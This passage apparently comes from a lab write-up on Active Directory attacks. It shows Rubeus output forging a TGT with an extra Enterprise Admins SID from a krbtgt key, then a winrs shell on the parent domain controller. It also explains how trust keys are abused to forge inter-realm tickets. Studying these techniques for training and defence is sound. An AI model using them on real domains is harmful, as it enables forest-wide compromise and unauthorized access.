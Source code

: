 ```powershell
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : US.TECHCORP.LOCAL (US)
[*] SID            : S-1-5-21-210670787-2521448726-163245708
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-2781415573-3701854478-2406986946-519
[*] ServiceKey     : B0975AE49F441ADC6B024AD238935AF5
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : B0975AE49F441ADC6B024AD238935AF5
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : us.techcorp.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@us.techcorp.local'

[*] AuthTime       : 12/4/2023 8:37:08 AM
[*] StartTime      : 12/4/2023 8:37:08 AM
[*] EndTime        : 12/4/2023 6:37:08 PM
[*] RenewTill      : 12/11/2023 8:37:08 AM

[*] base64(ticket.kirbi):

<snip>

[+] Ticket successfully imported!
```
- We can now access the DC of the Parent Domain.
```powershell
PS C:\Auditor> winrs -r:techcorp-dc.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.US> hostname;whoami
hostname;whoami
Techcorp-DC
us\administrator
```
# 3. Abusing Trust Tickets to Forge Inter-Realm TGTs
- Trust Keys allow domain accounts to access resources on different Trusted Domains. A special TGT ticket called **Inter-Realm or Referral Ticket** is used. That TGT is encrypted with the target Domain's Trust Key to refer to the **DC** that has the service. The account in the Initial Domain will use that **inter-realm ticket** to present it to the DC of the Trusted Domain in order to request access to the desired resource. The problem arises because the DC of the Target Domain blindly trusts the DC of the Initial Domain to verify the identity of the user. If the Initial Domain is compromised, attackers can forge tickets on behalf of any user they want.